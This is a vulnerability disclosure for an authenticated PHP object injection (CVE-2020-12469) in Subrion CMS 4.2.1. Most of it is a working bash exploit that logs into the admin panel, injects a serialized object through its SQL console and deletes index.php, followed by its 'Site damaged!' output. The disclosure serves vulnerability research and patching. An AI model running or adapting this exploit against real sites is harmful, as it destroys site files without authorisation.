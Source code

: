 # Subpages - PHP Object Injection

## VulDB-Like Summary

A vulnerability has been found in the Subrion CMS 4.2.1. It has been rated as problematic. Affected by this issue is the file `/admin/blocks.php`. The manipulation of the of the **subpages** value within a block leads to a PHP Object Injection vulnerability. Using CWE to declare the problem leads to CWE-502. Impacted is Integrity and Availability. An attacker might be able inject arbitrary PHP objects within the application context, and use them to achive arbitrary file deletion.

The weakness was presented 04/14/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). The advisory is shared for download at github.com. This vulnerability is handled as CVE-2020-12469. The attack may be launched remotely. A single form of authentication is required for exploitation. Technical details are known and an exploit is publicly available.

## Proof-of-Concept

The following script may be used to easily verify the vulnerability:

```bash
#!/bin/bash

username="admin"
password="Passw0rd!"
target="http://subrion.local/panel/"
proxy="http://127.0.0.1:8080"
id=10
debug=0

# Grep Session Cookie Name
sess_cookie=$(curl -ks -x $proxy $target -I | grep "Set-Cookie" | head -n 1 | grep -oP "INTELLI_\w*\=\w*")
cookies="Cookie: loader=loaded; $sess_cookie"
# Grep CSRF Token
csrf_token=$(curl -ks -x http://127.0.0.1:8080 $target | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)
echo "[*] Logging in"
# Fix the Session Cookie Value and login
res=$(curl -ks -x $proxy $target -X POST --data "__st=$csrf_token&username=$username&password=$password" -H "$cookies" -i | grep "Set-Cookie")

echo "[*] Adding evil PHP Object"
# Get CSRF Token
csrf_token=$(curl -i -s -k -H "$cookies" -x $proxy "$target/panel/database/" | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)

# Generating Payload
payload=$(php serializer.php -c s -t a -u)

if [ $debug -gt 0 ]; then
    echo $payload
fi

# Add the crafted parameter
res=$(curl -i -s -k -X "POST" -x $proxy -H "$cookies" --data-binary "__st=$csrf_token&query=UPDATE++%60subr_blocks%60+SET+%60subpages%60++%3D+%27$payload;%27+WHERE+%60id%60+%3D+$id%3B+&show_query=1&exec_query=Go" "$target/panel/database/")

if [[ $(echo $res | grep "Query OK:" | grep "rows affected") == "" ]]; then
    echo "Could not add the evil PHP Object"
    exit 1
fi
echo "[*] Triggering File deletion"
# Get block ID to trigger
res=$(curl -i -s -k -H "$cookies" -x $proxy "$target/panel/blocks/edit/$id/" &>/dev/null)

# Confirming deletion, checking 404 
res=$(curl -i -s -k -H "$cookies" -x $proxy "$target/panel/blocks/edit/$id/" | head -n 1 | grep -oP "\d{3}")
if [[ "$res" == "404" ]]; then
    echo "[+] Done! Site damaged!"
else
    echo "[-] Error, site patched!"
fi
```

Using the above script should give the following output, proving the vulnerability.

```
$ ./exploit.sh
[*] Logging in
[*] Adding evil PHP Object
[*] Triggering File deletion
[+] Done! Site damaged!
```

When the script finishes, the site should not be reachable anymore, as the **index.php** file has been deleted. In case you need further confirmation, check for the presence of **index.php** within Subrion HOME directory.

![File deletion - Test](https://github.com/belong2yourself/vulnerabilities/tree/master/Subrion%20CMS/Insecure%20Deserialization/Subpages%20-%20Authenticated%20PHP%20Object%20Injection/subpages-test.gif)

## Remediation

Currently, no fixes are available for this issue.

## References

*   [https://cwe.mitre.org/data/definitions/1236.html](https://cwe.mitre.org/data/definitions/1236.html)
*   [https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection)